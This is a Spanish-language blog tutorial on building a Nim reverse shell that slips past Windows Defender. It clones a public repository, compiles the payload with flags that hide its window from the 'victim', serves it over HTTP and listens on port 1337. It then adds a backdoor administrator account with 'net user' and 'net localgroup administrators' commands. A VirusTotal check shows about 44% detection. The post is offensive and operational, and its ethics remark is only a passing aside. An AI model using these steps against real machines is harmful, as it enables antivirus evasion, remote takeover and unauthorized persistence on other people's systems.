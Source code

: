 ```yaml
---
title: Bypass Windows Defender con Nim.
published: true
---
```


En este artículo, os muestro como es posible eludir el AV de Windows para obtener un shell inverso estable con nim

## ¿Qué es Nim?
Según el sitio web oficial de NIM, lo definen como un lenguaje de programación que tiene el poder de poder generar archivos ejecutables sin la necesidad de dependencias. Es utilizado para desarrollar aplicaciones para sistemas Windows, BSD, Linux, etc.

## Requisitos previos.
Como es de entender, se necesita tener instalado previamente nim y mingw. Esto se puede completar mediante la comanda:

```bash
Debian: sudo apt install nim mingw-w64
Fedora, CentOS, RHEL: sudo dnf install nim mingw64-gcc
Arch Linux: sudo pacman -S nim mingw-w64-gcc
OpenSUSE: sudo zypper install nim mingw64-gcc
```
Una vez acabada con la instalación debemos de clonar un repositorio de GitHub, el cual es el encargado de hacer nuestra tarea.
```
https://github.com/Sn1r/Nim-Reverse-Shell
```
## Tutorial.
Una vez clonado, debemos de editar las variables v1 y v2, reemplanzadolas por nuestra IP y el puerto que queramos usar del archivo rev_shell.nim.

> ![imagen](https://github.com/cerodah/blog/assets/82907557/79c01442-3105-406a-bb5d-0c68c31c4aa9)

Una vez hecho, debemos de escribir este comando
```bash
nim c -d:mingw --app:gui --opt:speed -o:Prueba.exe rev_shell.nim
```
Desglosamiento:
* **c:** Indicamos al compilador que complile con c.
* **-d:mingw:** Indicamos al compilador que use MinGW como cadena de strings para compilar. Permite ejecutar código nativo de Windows en sistemas Unix y Linux.
* **-app:gui:** Mientras se ejecuta el shell inverso en la máquina víctima (siempre éticos) el proceso se crea en segundo plano y la CLI no se muestra al usuario.
* **--opt:Speed:** Optimizamos el código para agilizar la velocidad de ejecución.
  Bueno... y los otros parámetros ya se puede intuir...
  > ![imagen](https://github.com/cerodah/blog/assets/82907557/c255ed96-3723-47e1-a550-e3861268f1bc)

Activamos un servidor HTTP en nuestra máquina local para poder nosotros descargarlo desde la máquina víctima y a la vez nos ponemos en escucha por el puerto establecido anteriormente (mi caso el 1337, jejeje).

> ![imagen](https://github.com/cerodah/blog/assets/82907557/bce96b4c-5bc1-4bc8-92ca-16c9d09cc772)

El Windows Defender no me ha avisado absolutamente de nada, pero hablaremos de una cosa más adelante.
> ![imagen](https://github.com/cerodah/blog/assets/82907557/e0dd89b7-7d95-4ff3-b2d2-86dc90e7abdb)
Y finalmente entablamos una conexión con la máquina víctima :). Si da el caso en el que se nos cierra la shell debido a restricciones simplemente creamos un nuevo usuario rápidamente con privilegios de administrador y posteriormente iniciar sesión a través de RDP o SSH si estuvieran abiertos los puertos.
```bash
 net user cerodah cerodah123 /add
 net localgroup administrators cerodah /add
```

## No todo es lo que parece.
Si nuestra víctima tuviera otro AV, hay una pequeña parte que podría ser detectado. Nos podemos pasar este archivo a VirusTotal y vemos que 30 AV lo han detectado que es un 43,66%.

> ![imagen](https://github.com/cerodah/blog/assets/82907557/f3fd88b2-4d3c-4cb6-9f8f-27e92aefe5a1)

Y con esto me despido...

```bash
Happy Hacking ^^
```
